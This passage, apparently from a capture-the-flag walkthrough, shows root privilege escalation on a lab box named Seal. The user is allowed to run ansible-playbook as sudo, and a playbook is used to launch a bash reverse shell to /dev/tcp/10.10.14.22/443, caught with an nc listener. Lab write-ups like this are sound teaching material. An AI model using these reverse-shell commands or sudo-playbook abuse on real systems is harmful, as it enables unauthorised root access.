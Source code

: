     PLAY RECAP *************************************************************************************************************************
    localhost                  : ok=4    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
    

### Shell

#### Via Reverse Shell

I’ll create a simple Bash script to get a reverse shell:

    
    
    luis@seal:/dev/shm$ vim rev.sh
    luis@seal:/dev/shm$ cat rev.sh 
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.22/443 0>&1
    luis@seal:/dev/shm$ chmod +x rev.sh 
    

After testing that it works, I’ll make a playbook to run it:

    
    
    - hosts: localhost
      tasks:
      - name: rev
        shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'
    

Running it hangs in the rev task:

    
    
    luis@seal:/dev/shm$ sudo ansible-playbook rev.yml 
    [WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
    
    PLAY [localhost] *******************************************************************************************************************
    
    TASK [Gathering Facts] *************************************************************************************************************
    ok: [localhost]
    
    TASK [rev] *************************************************************************************************************************
    

But at `nc` there’s a shell:

    
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.22] from (UNKNOWN) [10.10.10.250] 49578
    root@seal:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root)
    

I can grab `root.txt`:
